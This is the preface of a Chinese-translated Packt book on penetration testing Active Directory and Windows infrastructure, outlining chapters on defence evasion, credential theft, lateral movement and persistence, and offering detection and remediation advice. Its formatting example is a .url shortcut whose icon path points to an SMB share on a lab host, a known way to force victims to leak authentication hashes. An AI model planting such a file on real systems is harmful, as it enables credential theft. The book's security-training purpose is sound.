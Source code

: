 # 前言

几乎每天我们都会听到新的数据泄露、数据外泄或勒索软件攻击的消息。如今，网络犯罪已成为一个庞大的产业，并且不断寻求进步。这不再是一个人的表演；网络犯罪分子有自己的方法论、工具和专业人员。防御的方式是理解他们是如何攻击的、他们的战术以及技术。

我们将采用这种方法来对抗最受欢迎的软件供应商——微软的各种产品。本书专注于基于 Windows 的基础设施，因为对于大多数公司而言，企业内部基础设施仍然是一个重要领域。在本书中，我将带领你通过对`Active Directory`（*AD*）、Active Directory 证书服务、Microsoft Exchange 服务器、Microsoft SQL 服务器以及**系统中心配置管理器**（*SCCM*）的攻击杀链过程。在这个过程中，你将接触到已知的战术和技术，并进行大量的实践练习。

到本书结束时，你将能够对基于 Windows 的基础设施进行全面的实际安全评估。此外，你还将获得关于如何检测对手活动的建议和修复建议。

# 本书适用人群

本书确实是一本全方位的指南，专为从事 Windows 基础设施工作，特别是 AD 的安全专业人员编写。渗透测试人员和红队操作员将找到他们在实际评估中可能遇到的攻击场景。安全和 IT 工程师、蓝队成员以及事件响应人员将从检测和修复指南中受益。为了最大限度地利用本书，你应该具备 Windows 服务和 AD 的基础知识。

# 本书内容

*第一章*，*准备实验室和攻击 Exchange 服务器*，概述了攻击杀链，展示了如何部署实验室环境，并专注于通过实际示例演示 Exchange 服务器的攻击面。

*第二章*，*防御规避*，教授你如何规避**恶意软件扫描接口**（**AMSI**）和 AppLocker、PowerShell 增强日志记录、Sysmon 以及**Windows 事件跟踪**（**ETW**）。

*第三章*，*域侦察与发现*，在这一章你将学习如何在域中执行侦察、如何融入环境流量，以及深入了解像 BloodHound 和 Microsoft **高级威胁分析**（**ATA**）等工具的内部工作。

*第四章*，*域中的凭证访问*，介绍了通过捕获哈希值、强制认证、对 Kerberos 进行“烘烤”、如果**本地管理员密码解决方案**（**LAPS**）配置错误时读取明文密码，以及通过 DCSync 收集 gMSA 账户或整个域的哈希值等方式获取域环境中的凭证。

*第五章*，*域内和跨森林的横向移动*，展示了对手如何通过滥用不同类型的委派、传递不同类型的凭证材料、转发捕获的哈希值以及向其他森林移动来在环境中横向移动。

*第六章*，*域权限提升*，我们将重点讨论通过滥用配置错误的**访问控制列表**（**ACL**）、**组策略对象**（**GPO**）和特殊内建组来提升域中的权限，以及如何从子域转移到父域。

*第七章*，*域级持久化*，展示了通过伪造票证和操作 ACL 和对象，以及通过添加骨架密钥、恶意 SSP、注册表后门等手段，在域控制器上实现持久化的技术。

*第八章*，*滥用 Active Directory 证书服务*，涵盖了微软实施的**公钥基础设施**（**PKI**）的基础知识，以及盗取证书、在域中提升权限并实现域级持久化的方法。

*第九章*，*攻破 Microsoft SQL Server*，我们将重点讨论如何攻击 SQL Server，包括枚举、权限提升、横向移动和持久化。

*第十章*，*接管 WSUS 和 SCCM*，提供了 IT 支持管理软件的概述，并介绍了滥用其功能的方法，最终实现对整个环境的完全接管。

# 为了充分利用本书

| 书中涵盖的软件/硬件 | 操作系统要求 |
| --- | --- |
| Windows Active Directory | Linux 主机 |
| Windows 服务 – WSUS 和 AD CS | Kali 虚拟机 |
| Exchange 服务器 |  |
| SQL Server |  |
| SCCM |  |

# 使用的约定

本书中使用了若干文本约定。

**文本中的代码**：表示文本中的代码词、数据库表名、文件夹名称、文件名、文件扩展名、路径名、虚拟 URL、用户输入和 Twitter 用户名。以下是一个示例：“`MailSniper` 计算身份验证尝试响应之间的时间差。”

任何命令行输入或输出如下所示：

```
[InternetShortcut]
URL=any
WorkingDirectory=any
IconFile=\\192.168.56.100\%USERNAME%.icon
IconIndex=1
```

**粗体**：表示新术语、重要词汇或您在屏幕上看到的词。例如，菜单或对话框中的词语通常以**粗体**显示。以下是一个示例：“我们将讨论攻击检测及可能的防范措施，并介绍进攻性**操作` `安全**（**OpSec**）。”

提示或重要注意事项

显示如下。

# 联系我们

我们始终欢迎读者的反馈。

**一般反馈**：如果你对本书的任何部分有疑问，请通过邮件联系我们，邮箱地址是 customercare@packtpub.com，并在邮件主题中提到书名。

**勘误表**：尽管我们已尽最大努力确保内容的准确性，但难免会有错误。如果你在本书中发现任何错误，我们将非常感激你向我们报告。请访问[www.packtpub.com/support/errata](http://www.packtpub.com/support/errata)并填写表单。

**盗版**：如果你在互联网上发现我们作品的任何非法副本，请提供其网址或网站名称。请通过版权@packtpub.com 与我们联系，附上该资料的链接。

**如果你有兴趣成为作者**：如果你在某个领域有专长，并且有兴趣撰写或参与编写一本书，请访问[authors.packtpub.com](http://authors.packtpub.com)。

# 分享你的想法

一旦你阅读了*《渗透测试：Active Directory 和基于 Windows 的基础设施》*，我们非常希望听到你的反馈！请[点击这里直接进入 Amazon 的评论页面](https://packt.link/r/1804611360)，分享你的看法。

你的评论对我们和技术社区来说都非常重要，将帮助我们确保提供卓越质量的内容。

# 下载本书的免费 PDF 副本

感谢购买本书！

你喜欢在旅途中阅读，但又不能随时携带纸质书籍吗？

你的电子书购买是否与你选择的设备不兼容？

不用担心，现在购买每本 Packt 书籍，你都会免费获得该书的无 DRM PDF 版本。

随时随地、在任何设备上阅读。直接从你最喜欢的技术书籍中搜索、复制并粘贴代码到你的应用程序中。

优惠活动不仅仅是这样，你还可以获得独家折扣、时事通讯以及每天送到邮箱的精彩免费内容

按照以下简单步骤，享受相关福利：

1.  扫描二维码或访问以下链接

![](img/B18964_QR_Free_PDF.jpg)

[`packt.link/free-ebook/9781804611364`](https://packt.link/free-ebook/9781804611364)

1.  提交你的购买证明

1.  就是这样！我们会直接将你的免费 PDF 和其他福利发送到你的邮箱。
